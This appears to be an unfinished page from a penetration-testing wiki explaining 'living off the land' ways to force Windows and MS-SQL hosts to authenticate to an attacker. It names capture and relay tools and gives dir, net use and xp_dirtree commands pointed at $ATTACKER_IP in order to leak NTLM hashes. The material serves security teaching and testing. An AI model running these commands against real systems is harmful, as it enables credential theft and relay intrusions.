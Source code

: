 # 🛠️ Living off the land

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

> In the physical world, “living off the land” simply means to survive only by the resources that you can harvest from the natural land. There may be multiple reasons for doing this — perhaps you want to get “off the grid,” or maybe you have something or someone to hide from. Or maybe you just like the challenge of being self-sufficient.
>
> In the technology world, “living off the land” (LotL) refers to attacker behavior that uses tools or features that already exist in the target environment. ([source](https://logrhythm.com/blog/what-are-living-off-the-land-attacks/))

There are multiple "living off the land" techniques that can be used to force authentications, to capture hashes, or to relay authentications. In order to use those techniques, testers need to have an initial access to "the land", i.e. the tools or features the technique uses.

## Practice

Those techniques will usually generate outgoing traffic on SMB or HTTP, hence requiring the attacker to set up an SMB or HTTP server to [capture](../ntlm/capture.md) or [relay](../ntlm/relay.md) the authentication (e.g. using tools like [Responder](https://github.com/SpiderLabs/Responder) (Python), [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), [ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) (Python) or [Inveigh-Relay](https://github.com/Kevin-Robertson/Inveigh) (Powershell)).

### Command execution

On Windows machines, cmdlets like `net` or `dir` can be used to make the machine access a remote resource, hence making it authenticate. This leads to an outgoing traffic using SMB.

```bash
dir \\$ATTACKER_IP\something
net use \\$ATTACKER_IP\something
```

The rpcping command can also be used to trigger an authentication. The perk of this technique is that the auth won't carry a signing negotiation flag, hence allowing for relays

### MS-SQL queries execution

On MS-SQL (Microsoft SQL) servers, the EXEC method can be used to access a remote SMB share. This leads to an outgoing traffic using SMB.

```bash
EXEC master.sys.xp_dirtree '\\$ATTACKER_IP\something',1,1
```
